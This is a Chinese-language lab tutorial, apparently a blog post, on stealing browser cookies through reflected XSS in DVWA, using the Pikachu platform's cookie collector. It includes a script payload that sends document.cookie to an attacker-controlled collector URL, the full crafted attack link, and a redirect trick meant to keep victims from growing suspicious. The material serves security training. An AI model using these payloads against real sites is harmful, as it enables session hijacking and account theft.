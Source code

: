 ![image-20211223103831134](https://gitee.com/xxb667/img/raw/master/img/image-20211223103831134.png)

选中【cookie搜集】

![image-20211223103912927](https://gitee.com/xxb667/img/raw/master/img/image-20211223103912927.png)

![image-20211223104026539](https://gitee.com/xxb667/img/raw/master/img/image-20211223104026539.png)

#### 2.修改代码：

```
cd /var/www/html/pikachu/pkxss/xcookie  #切换到cookie相关的目录
vim cookie.php
```

![image-20211223104317344](https://gitee.com/xxb667/img/raw/master/img/image-20211223104317344.png)

- 把图上黄框那一行里面的网址修改为一个可信的网站：
  - 这里的意思是当用户点击后 
  - 向我们的XSS平台写入cookie后 
  - 再跳转回原来的页面

这里我们跳转到原来的那个页面

```
header("Location:http://192.168.81.135/DVWA/vulnerabilities/xss_r/"); #跳转原来的页面，这里IP改为centos的IP地址
```

##### **注意：**

**如果没有这一步 用户点击我们的链接后会一直停留在我们的黑客服务器的页面上，从而引起用户怀疑**。

#### 3.构造payload:

```
<script>document.location='http://192.168.81.135/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>
#IP地址改为我们centos的IP地址
```

- document.cookie
  - 创建 、读取、及删除 cookie。

-  document.location
  -  用于跳转页面

这上面的代码意思是传递 cookie 参数到pikachuXSS管理平台的cookie.php 文件里面

##### 反射型XSS里面操作

拼接后完整的 URL

```
http://192.168.81.135/DVWA/vulnerabilities/xss_r/?name=<script>document.location='http://192.168.81.135/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>
```

但是通过这样访问，因为 url 中直接有“javascript 脚本”有时候服务器会拒绝，有可能不成功的。所以我们需要对
payload 进行 URL编码
